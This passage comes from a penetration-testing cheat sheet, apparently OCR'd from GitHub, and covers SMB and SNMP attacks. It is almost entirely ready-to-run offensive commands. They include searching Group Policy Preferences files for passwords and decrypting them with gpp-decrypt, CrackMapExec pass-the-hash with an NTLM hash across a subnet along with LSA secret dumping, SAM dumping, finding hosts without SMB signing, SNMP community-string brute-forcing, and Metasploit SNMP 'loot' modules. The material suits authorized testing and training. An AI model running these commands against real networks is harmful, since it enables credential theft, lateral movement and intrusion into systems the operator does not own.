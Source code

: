 ```bash
# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# CrackMapExec
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa

# Impacket
python3 samdump.py SMB 172.21.0.0

# Check for systems with SMB Signing not enabled
python3 RunFinger.py -i 172.21.0.0/24
```

## Port 161/162 UDP - SNMP

```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
nmap 10.11.1.111 -Pn -sU -p 161 --script=snmp-brute,snmp-hh3c-logins,snmp-info,snmp-interfaces,snmp-ios-config,snmp-netstat,snmp-processes,snmp-sysdescr,snmp-win32-services,snmp-win32-shares,snmp-win32-software,snmp-win32-users
snmp-check 10.11.1.111 -c public|private|community
snmpwalk -c public -v1 ipaddress 1
snmpwalk -c private -v1 ipaddress 1
snmpwalk -c manager -v1 ipaddress 1
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 172.21.0.X

# Impacket
python3 samdump.py SNMP 172.21.0.0 

# MSF aux modules
 auxiliary/scanner/misc/oki_scanner                                    
 auxiliary/scanner/snmp/aix_version                                   
 auxiliary/scanner/snmp/arris_dg950                                   
 auxiliary/scanner/snmp/brocade_enumhash                               
 auxiliary/scanner/snmp/cisco_config_tftp                               
 auxiliary/scanner/snmp/cisco_upload_file                              
 auxiliary/scanner/snmp/cnpilot_r_snmp_loot                             
 auxiliary/scanner/snmp/epmp1000_snmp_loot                             
 auxiliary/scanner/snmp/netopia_enum                                    
 auxiliary/scanner/snmp/sbg6580_enum                                 
 auxiliary/scanner/snmp/snmp_enum                                 
 auxiliary/scanner/snmp/snmp_enum_hp_laserjet                           
 auxiliary/scanner/snmp/snmp_enumshares                                
 auxiliary/scanner/snmp/snmp_enumusers                                 
 auxiliary/scanner/snmp/snmp_login
```

## Port 389,636 - LDAP

